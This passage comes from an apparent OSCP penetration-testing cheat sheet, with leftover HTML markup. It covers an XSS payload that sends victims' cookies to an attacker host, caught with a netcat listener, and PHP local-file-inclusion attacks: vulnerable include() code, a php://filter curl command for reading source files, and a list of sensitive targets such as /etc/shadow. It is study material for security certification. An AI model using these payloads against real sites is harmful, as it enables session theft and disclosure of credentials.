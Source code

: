         <pre><span class="pl-k"><</span>javascript<span class="pl-k">></span>  
        <span class="pl-k">new</span> <span class="pl-en">image</span>().<span class="pl-smi">src</span><span class="pl-k">=</span><span class="pl-s"><span class="pl-pds">"</span>http://$ip/bogus.php?output=<span class="pl-pds">"</span></span><span class="pl-k">+</span><span class="pl-c1">document</span>.<span class="pl-c1">cookie</span>;  
        <span class="pl-k"><</span><span class="pl-k">/</span>script<span class="pl-k">></span></pre>

        </div>

        nc -nlvp 80

*   ## [](https://x89k.tk/infosec/2018/11/03/oscpsurvivalguide.html#file-inclusion-vulnerabilities)File Inclusion Vulnerabilities

    *   Local (LFI) and remote (RFI) file inclusion vulnerabilities are commonly found in poorly written PHP code.

    *   fimap - There is a Python tool called fimap which can be leveraged to automate the exploitation of LFI/RFI vulnerabilities that are found in PHP (sqlmap for LFI):  
        [_https://github.com/kurobeats/fimap_](http://web.archive.org/web/20171113221652/https://github.com/kurobeats/fimap)

        *   Gaining a shell from phpinfo()  
            fimap + phpinfo() Exploit - If a phpinfo() file is present, it’s usually possible to get a shell, if you don’t know the location of the phpinfo file fimap can probe for it, or you could use a tool like OWASP DirBuster.
    *   For Local File Inclusions look for the include() function in PHP code.

        <div class="highlight highlight-text-html-php">

        <pre><span class="pl-s1"><span class="pl-k">include</span>(<span class="pl-s"><span class="pl-pds">"</span>lang/<span class="pl-pds">"</span></span><span class="pl-k">.</span><span class="pl-smi">$_COOKIE</span>[<span class="pl-s"><span class="pl-pds">'</span>lang<span class="pl-pds">'</span></span>]);</span> 
        <span class="pl-s1"><span class="pl-k">include</span>(<span class="pl-smi">$_GET</span>[<span class="pl-s"><span class="pl-pds">'</span>page<span class="pl-pds">'</span></span>]<span class="pl-k">.</span><span class="pl-s"><span class="pl-pds">"</span>.php<span class="pl-pds">"</span></span>);</span></pre>

        </div>

    *   LFI - Encode and Decode a file using base64

        <div class="highlight highlight-source-shell">

        <pre>curl -s \
        <span class="pl-s"><span class="pl-pds">"</span>http://<span class="pl-smi">$ip</span>/?page=php://filter/convert.base64-encode/resource=index<span class="pl-pds">"</span></span> \
        <span class="pl-k">|</span> grep -e <span class="pl-s"><span class="pl-pds">'</span>\[^\\ \]\\{40,\\}<span class="pl-pds">'</span></span> <span class="pl-k">|</span> base64 -d</pre>

        </div>

    *   LFI - Download file with base 64 encoding  
        _http://$ip/index.php?page=php://filter/convert.base64-encode/resource=admin.php_

    *   LFI Linux Files:  
        /etc/issue  
        /proc/version  
        /etc/profile  
        /etc/passwd  
        /etc/passwd  
        /etc/shadow  
        /root/.bash_history  
        /var/log/dmessage  
        /var/mail/root  
        /var/spool/cron/crontabs/root
